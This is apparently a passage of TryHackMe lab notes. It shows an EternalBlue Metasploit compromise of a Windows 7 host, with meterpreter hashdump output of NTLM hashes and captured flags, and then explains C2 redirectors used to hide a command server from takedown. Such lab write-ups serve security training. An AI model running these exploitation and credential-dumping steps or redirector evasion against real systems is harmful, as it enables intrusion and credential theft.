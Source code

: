 As seen, we are dealing with an old version of windows: `Windows 7 Home Basic 7600`, we can use `eternalblue` exploit in `metasploit` to get a shell as \`nt authority/system:

!\[]\(Pasted image 20250512130804.png)

We need to run it a couple times for it to work, we now got a shell:

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c156d5d108721c5626a6a054d6e0943c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Ted:1001:aad3b435b51404eeaad3b435b51404ee:2e2618f266da8867e5664425c1309a5c:::


meterpreter > cat C:/Users/Administrator/Desktop/root.txt
THM{bd6ea6c871dced619876321081132744}


meterpreter > cat C:/Users/Ted/Desktop/user.txt
THM{217fa45e35f8353ffd04cfc0be28e760}
```

## Advanced C2 Setups

***

#### There's Always Room for Improvement

As you may have guessed, Metasploit itself is not that great of a C2 server for advanced adversary operations. It's not as flexible as one would desire; you cannot configure agents to beacon out every X seconds with Y jitter. A Next-Generation Firewall could quickly pick up on this C2 traffic, seeing it's a constant stream of traffic. In addition, anyone could connect to an HTTP/HTTPS listener and find out relatively quickly what is going on.

#### Command and Control Redirectors&#x20;

**What is a Redirector?**

Before we dive into configuring a Redirector, first, what is it? A Redirector is exactly as it sounds. It's a server that "Redirects" HTTP/HTTPS requests based on information within the HTTP Request body. In production systems, you may see a "Redirector" in the form of a Load Balancer. This server often runs Apache 2 or NGINX. For this lab, we will be leveraging Apache and some of its modules to build a Redirector.

Jumping back into Metasploit, we can set up some basic configurations on Metasploit to allow for more advanced configurations, in this task; we will be setting up a Redirector. Usually, this configuration is set up on multiple hosts; the purpose of this is to hide the true Command and Control server. The diagram below illustrates how communications between a victim and a C2 server happen.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/c38457eb8f35b56a630d1e1b9f2bc75f.png)

_Illustration of a C2 and Redirector with victims calling back_

Usually, when you have a C2 callback, you may set the callback host to a Domain, let's say admin.tryhackme.com. It's very common for your C2 Server to get reported, when a user files a complaint. Usually, the server gets taken down fairly quickly. It can sometimes be as little as 3 hours and as much as 24. Setting up a redirector ensures that any information you may have collected during the engagement is safe and sound.&#x20;
